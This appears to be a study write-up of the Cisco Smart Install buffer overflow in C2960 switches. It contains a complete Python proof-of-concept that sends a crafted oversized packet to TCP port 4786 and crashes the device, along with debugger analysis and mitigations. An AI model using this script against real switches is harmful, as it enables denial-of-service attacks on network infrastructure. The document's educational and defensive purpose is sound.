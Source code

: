 ### INTRODUCTION
why is C2960 targeted by attackers/security researchers?
* affordable and wide spread model

what is the main characteristic of C2960 to be easy to exploit?
* there're features listed online but one important feature of Cisco IOS is its behavior in case an exception condition occurs if something goes wrong, Cisco IOS reboots a device

### REVISION
what is buffer?
* buffer is a small memory allocated specifically for input, used when a process or a program is executed

what is buffer overflow attack?
* when attacker enters arbitrary input to buffer, long enough to overrun the buffer's boundary and overwrite adjacent memory location
* stack based buffer overflow in short is also known as buffer overflow

why do buffer overflow take place?
* mostly due to bad programming written, use of unsafe c function and unsanitized input

what is watchdog?
* a timer which automatically reboot the system if it detects some programs are not working




### SETUP
`Host A         <-----------------> C2960 SI PoE 24 Switch (c2960-lanlitek9-mz.122-58.SE2.bin)`<br/>
`192.168.200.2      <----------------->  192.168.200.1`

### HOW TO CHECK IF SWITCH IS VULNERABLE
`SW>show vstack config`<br/>
`SW>show tcp brief all`




### smi_ibc_init_discovery_BoF.py.PY BREAKDOWN

    import socket 
    import struct 
    from optparse import OptionParser 

    # Parse the target options 
    parser = OptionParser() 
    parser.add_option("-t", "--target", dest="target", help="Smart Install Client", default="192.168.1.1")  
    parser.add_option("-p", "--port", dest="port", type="int", help="Port of Client", default=4786)  
    (options, args) = parser.parse_args() 

    def craft_tlv(t, v, t_fmt='!I', l_fmt='!I'): 
      return struct.pack(t_fmt, t) + struct.pack(l_fmt, len(v)) + v 

    def send_packet(sock, packet): 
      sock.send(packet)   

    def receive(sock):  
      return sock.recv() 

    if __name__ == "__main__": 

    print "[*] Connecting to Smart Install Client ", options.target, "port", options.port 

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    con.connect((options.target, options.port)) 

    payload = 'BBBB' * 44  
    shellcode = 'D' * 2048 

    data = 'A' * 36 + struct.pack('!I', len(payload) + len(shellcode) + 40) + payload 

    tlv_1 = craft_tlv(0x00000001, data)  
    tlv_2 = shellcode 

    hdr =  '\x00\x00\x00\x01'                                   # msg_from
    hdr += '\x00\x00\x00\x01'                                   # version
    hdr += '\x00\x00\x00\x07'                                   # msg_hdr_type
    hdr += struct.pack('>I', len(data))                         # data_length

    pkt = hdr + tlv_1 + tlv_2 

    print "[*] Send a malicious packet"  
    send_packet(con, pkt)



what is the objective of the script?
* the <SMI IBC Server Process> process contains a Smart Install Client implementation code
* the Smart Install Client starts a server on the TCP(4786) port (opened by default) to interact with the Smart Install Director
* a specially crafted malicious message ibd_init_discovery_msg for the stack-based buffer overflow occurs

what is struct.park(function)?
* it packs a list of values into a string representation of the specified type
* !'I' --> format string for network also means big-endian
* fmt ---> format string

what is tlv?
* encoding scheme used within the data communication protocol
* for data formatting. when we want to send data to receiver, we prepare a TLV package that contains Tag-Length-Value datas
  1. data type/tag
  2. data length/size
  3. data value/content of the data
  
* format string for big-endian ---> (>I) 
* 4+4+4+4=16bytes for hdr ----> header which consists of |msg-from|version|msg_hdr-type|data_length|
* 36+4+(4*44)=216bytes  ---> TLV Data Value
* a single packet consists of | header (16 bytes)| TLV_1 (224 bytes)|TLV (2048 bytes) |


### CRAFTED PACKET STRUCTURE FROM THE SCRIPT
![packet structure](https://user-images.githubusercontent.com/23307275/39845863-de67a538-542a-11e8-9c23-7d5b38e13e75.PNG)


### WIRESHARK PACKET SNIFFING
![wireshark1](https://user-images.githubusercontent.com/23307275/39845865-dec1d724-542a-11e8-9ece-42d45e9f5526.PNG)

<br/>

![wireshark2](https://user-images.githubusercontent.com/23307275/39845860-ddc64f62-542a-11e8-90f1-d5e0707524b8.PNG)


### FUNCTION OF EXPOLIT IS LOCATED
* smi_ibc_handle_ibd_init_discovery_msg, SUB_B258CC

![overview](https://user-images.githubusercontent.com/23307275/39845857-d822a452-542a-11e8-9c19-e39ffbe45655.PNG)
![sub_routine](https://user-images.githubusercontent.com/23307275/39845855-d7c60620-542a-11e8-8bf1-408e90fcfcf3.PNG)


  R3: ptr to the tlv_type <br/>
  R4: length of tlv <br/>
  R5: ptr to the 16 bytes header <br/>
  R6: ptr to the TLV data <br/>
 
  ![allr](https://user-images.githubusercontent.com/23307275/39849919-5343e194-5441-11e8-809d-e86cc2236fda.PNG)
  <br/>
  ![r5](https://user-images.githubusercontent.com/23307275/39849921-57100046-5441-11e8-84e5-4cd2514e0378.PNG)
  <br/>
  ![r6](https://user-images.githubusercontent.com/23307275/39845864-de93c1fe-542a-11e8-922d-35b208c18658.PNG)
  <br/>

### LOGIC AND THE EXACT PLACE OF EXPLOIT

Focus 1:
``if (tlv_type == 1) {``
  ``#read tlv_length information``
``}``

Focus 2:
`if (tlv_length != 0) {`
  `#size = tlv_length     <-----(LOOPHOLE) NO VALIDATION CHECK`
`}

Focus 3:
`if (size != 0) {`
 `do {`
   `memcpy (src, dest, size);`
   `size-=1;`
 `} while (size!=0)`
`}`

* size is saved as a parameter for later memcpy (src, dest, size)
* tlv-type number assignment, http://irl.cs.ucla.edu/~cawka/spec/types.html
* size is the number of bytes to be copied
* fetch and copy data without verification
* just copy without checking if the size of the data exceed the allocated size of buffer <---- buffer overflow will occurs

### BEFORE AND AFTER BUFFER OVERFLOW IN LOW-LEVEL
![from the code logic](https://user-images.githubusercontent.com/23307275/39845862-de324c8a-542a-11e8-9df2-02a10f7cfb7d.PNG)

  R3 is the buffer length of 0x58 #dst <br/>
  R4 is the content of the TlL data #scr <br/>
  R5 is the tlv length #size <br/>

  memcpy (src, dest, size)

* 0xd8 (216 bytes) to be copied to the allocated 0x58 (88 bytes) buffer  <--- buffer overflow occurs
* R4 (data content) to R3 (buffer) do while the size is not 0 (referenced back to focus 1)

![before overflow](https://user-images.githubusercontent.com/23307275/39845861-de072bfe-542a-11e8-8e33-585ee1d6aace.PNG)

* the figure above shows that the contents of 0xd8 bytes starting from 0x318e890 will be copied into the buffers starting from 0x3df24a8 in the stack frame.

![after](https://user-images.githubusercontent.com/23307275/39850049-fb82c5dc-5441-11e8-918c-16ed55ac8c87.PNG)
 <br/>
 
* the above figure shows the contents of the function stack frame after the memcpy operation. The stack frame of this function is 0x58 bytes in size. After the function is overwritten by 0x42424242, the pointer of the execution code area is skipped resulting a buffer overflow situation. 

* the content of the register changes along with the CPU instructions
* register is a small set of data holding places that are part of the computer processor
* stack based buffer flow in this case
* conclude (summarize) the result of crash

### MIGITATIONS
1. no vstack command to disable the smart installed function (cannot be persistent, require reconfigure after reboot)
2. use ACL to filter traffic from tcp port 4786, or limit through Control Panel Policy (CoPP)
3. patch and upgrade
4. use new plug and play (Cisco Network Plug and Play) solution instead

### References
* https://embedi.com/blog/cisco-smart-install-remote-code-execution/
* https://www.anquanke.com/post/id/105473
